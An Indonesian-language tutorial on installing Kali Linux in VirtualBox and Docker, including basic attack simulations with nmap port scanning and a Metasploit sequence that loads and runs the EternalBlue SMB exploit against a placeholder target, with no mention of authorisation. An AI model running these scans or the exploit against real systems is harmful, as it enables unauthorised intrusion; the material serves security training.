 # **Hands-On: Kali Linux dengan VirtualBox**

#### 1. **Instalasi Kali Linux di VirtualBox/VMware**
   - **Langkah-langkah**:
     1. Unduh ISO Kali Linux dari situs resmi.
     2. Buat mesin virtual baru di VirtualBox/VMware.
     3. Mount ISO Kali Linux ke mesin virtual.
     4. Ikuti proses instalasi hingga selesai.
     5. Konfigurasi jaringan dan update sistem.

#### 2. **Simulasi Dasar Serangan Menggunakan Terminal Kali Linux**
   - **Contoh Simulasi**:
     - **Nmap Scanning**: Gunakan perintah `nmap` untuk memindai port pada target.
       ```bash
       nmap -sV <target_IP>
       ```
     - **Metasploit Framework**: Gunakan Metasploit untuk eksploitasi kerentanan.
       ```bash
       msfconsole
       use exploit/windows/smb/ms17_010_eternalblue
       set RHOSTS <target_IP>
       exploit
       ```
---

# **Hands-On: Kali Linux dengan Docker**

### **1. Instalasi Kali Linux dengan Docker**

#### **Langkah 1: Instal Docker**
1. **Untuk Ubuntu/Debian**:
   - Update sistem:
     ```bash
     sudo apt update && sudo apt upgrade -y
     ```
   - Instal Docker:
     ```bash
     sudo apt install docker.io
     ```
   - Mulai dan aktifkan Docker:
     ```bash
     sudo systemctl start docker
     sudo systemctl enable docker
     ```
   - Verifikasi instalasi:
     ```bash
     docker --version
     ```

2. **Untuk Windows/Mac**:
   - Unduh Docker Desktop dari situs resmi: [https://www.docker.com/products/docker-desktop](https://www.docker.com/products/docker-desktop).
   - Ikuti proses instalasi dan mulai Docker Desktop.

---

#### **Langkah 2: Unduh Image Kali Linux dari Docker Hub**
1. Buka terminal atau command prompt.
2. Unduh image resmi Kali Linux dari Docker Hub:
   ```bash
   docker pull kalilinux/kali-rolling
   ```
3. Verifikasi bahwa image telah terunduh:
   ```bash
   docker images
   ```

---

#### **Langkah 3: Jalankan Container Kali Linux**
1. Jalankan container Kali Linux dengan akses terminal interaktif:
   ```bash
   docker run -it kalilinux/kali-rolling /bin/bash
   ```
   - Opsi `-it` memungkinkan Anda berinteraksi dengan terminal container.
   - `/bin/bash` memulai shell Bash di dalam container.

2. Setelah masuk ke container, Anda akan melihat prompt terminal Kali Linux.

---

#### **Langkah 4: Update dan Instal Tools di Container Kali Linux**
1. Update sistem:
   ```bash
   apt update && apt upgrade -y
   ```
2. Instal tools yang diperlukan, misalnya `nmap` dan `metasploit-framework`:
   ```bash
   apt install nmap metasploit-framework -y
   ```

---

### **2. Simulasi Dasar Serangan Menggunakan Terminal Kali Linux di Docker**

#### **Contoh 1: Nmap Scanning**
1. Jalankan perintah `nmap` untuk memindai port pada target:
   ```bash
   nmap -sV <target_IP>
   ```
   - Ganti `<target_IP>` dengan alamat IP target yang ingin Anda pindai.
   - Contoh:
     ```bash
     nmap -sV 192.168.1.1
     ```

---

#### **Contoh 2: Metasploit Framework**
1. Buka Metasploit Framework:
   ```bash
   msfconsole
   ```
2. Cari dan gunakan exploit, misalnya `ms17_010_eternalblue`:
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   ```
3. Set target IP:
   ```bash
   set RHOSTS <target_IP>
   ```
   - Ganti `<target_IP>` dengan alamat IP target.
4. Jalankan exploit:
   ```bash
   exploit
   ```

---

### **3. Menyimpan Perubahan di Container Docker**
- Secara default, perubahan di container Docker bersifat sementara. Jika Anda ingin menyimpan perubahan (misalnya, tools yang telah diinstal), Anda dapat membuat image baru dari container yang sedang berjalan:
  1. Cari ID container yang sedang berjalan:
     ```bash
     docker ps
     ```
  2. Commit container ke image baru:
     ```bash
     docker commit <container_id> my-kali-image
     ```
     - Ganti `<container_id>` dengan ID container Anda.
  3. Verifikasi image baru:
     ```bash
     docker images
     ```

---

### **4. Menjalankan Container dengan Image yang Disimpan**
1. Jalankan container baru dengan image yang telah disimpan:
   ```bash
   docker run -it my-kali-image /bin/bash
   ```
2. Anda akan masuk ke container dengan semua tools yang telah diinstal sebelumnya.

---

### **5. Menghapus Container dan Image**
1. Hentikan container yang sedang berjalan:
   ```bash
   docker stop <container_id>
   ```
2. Hapus container:
   ```bash
   docker rm <container_id>
   ```
3. Hapus image:
   ```bash
   docker rmi <image_name>
   ```

---

### **Keuntungan Menggunakan Kali Linux dengan Docker**
- **Ringan**: Tidak perlu menginstal sistem operasi penuh.
- **Portabel**: Container dapat dijalankan di mana saja dengan Docker.
- **Isolasi**: Aman untuk eksperimen karena terisolasi dari sistem host.
- **Cepat**: Proses instalasi dan pengaturan lebih cepat dibandingkan virtual machine.

---

### **Referensi:**
- **Docker Documentation**: [https://docs.docker.com/](https://docs.docker.com/)
- **Kali Linux Docker Image**: [https://hub.docker.com/r/kalilinux/kali-rolling](https://hub.docker.com/r/kalilinux/kali-rolling)
- **Nmap Documentation**: [https://nmap.org/book/man.html](https://nmap.org/book/man.html)
- **Metasploit Documentation**: [https://docs.rapid7.com/metasploit/](https://docs.rapid7.com/metasploit/)
